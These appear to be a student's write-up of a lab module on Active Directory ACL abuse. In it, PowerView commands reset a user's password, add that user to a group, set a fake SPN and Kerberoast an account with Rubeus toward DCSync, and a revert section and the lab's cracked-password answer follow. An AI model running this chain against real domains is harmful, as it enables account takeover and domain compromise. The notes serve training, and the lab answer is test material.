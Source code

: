 # ACL Abuse Tactics

## Abusing ACLs

**Recap**

We have control ver wley, we know that we can chain attack and take control over adunn who can perform DCSync attack. This would give full control over the domain and allowing us to retrive NTLM password hash for all users in domain, then escalate privileges to Domain Admin and achive persistence. The method that we are going to use is

1. use wley to change password for damundsen
2. authenticate as damunbdsen and leverage genericall rights to add a user to Help Desk Level 1 group
3. Leverage GenericAll rights in Information Technology group to take control of adunn user

To perform the first step we can create a PSCredential object.

### **Change password for damundsen**

**Creating a PSCredential Object**

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

Next, we must create a [SecureString object](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring?view=net-6.0) which represents the password we want to set for the target user `damundsen`.

**Creating a SecureString Object**

```powershell-session
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

Finally, we'll use the [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) PowerView function to change the user's password.

**Changing the User's Password**

```powershell-session
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'damundsen'
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
```

* \-Credential ->pass in credential object we created

### Add damundsen to Help Desk Level 1

Next, we authenticate as the `damundsen` user and add ourselves to the `Help Desk Level 1` group.

**Creating a SecureString Object using damundsen**

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

Next, we can use the [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) function to add ourselves to the target group.

**Adding damundsen to the Help Desk Level 1 Group**

```powershell-session
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```

**Confirming damundsen was Added to the Group**

```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName

MemberName
----------
busucher
spergazed

<SNIP>

damundsen
dpayne
```

Since we have `GenericAll` rights over this account, we can perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket

we must be a member of Information Technology group, since we added damundsen to Help Desk Level 1 group, we inherited rights via nested group membership.

### **Targetted Kerberoasting**

**Creating a Fake SPN**

```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'notahacker/LEGIT' for object 'adunn'
```

We created a fake SPN called 'notahacker/LEGIT'

**Kerberoasting with Rubeus**

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap

[*] Hash : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL*$ <SNIP>
```

last is to crack the hash usign hashcat. After we have a cleartext password we can authenticate as adunn and perform DCSync attack.

## Revert

### **Removing the Fake SPN from adunn's Account**

```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Clearing 'serviceprincipalname' for object 'adunn'
```

### **Removing damundsen from the Help Desk Level 1 Group**

```powershell-session
PS C:\htb> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Remove-DomainGroupMember] Removing member 'damundsen' from group 'Help Desk Level 1'
True
```

**Confirming damundsen was Removed from the Group**

```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

## Assessment

**Work through the examples in this section to gain a better understanding of ACL abuse and performing these skills hands-on. Set a fake SPN for the adunn account, Kerberoast the user, and crack the hash using Hashcat. Submit the account's cleartext password as your answer.**

<figure><img src="../../../.gitbook/assets/image (51).png" alt=""><figcaption><p>Change damundsens' password</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption><p>add damundsens to Help Desk Level 1</p></figcaption></figure>

Targetted kerberoasting

```
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

```
.\Rubeus.exe kerberoast /user:adunn /nowrap
```

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption><p>adunn:SyncMaster757</p></figcaption></figure>
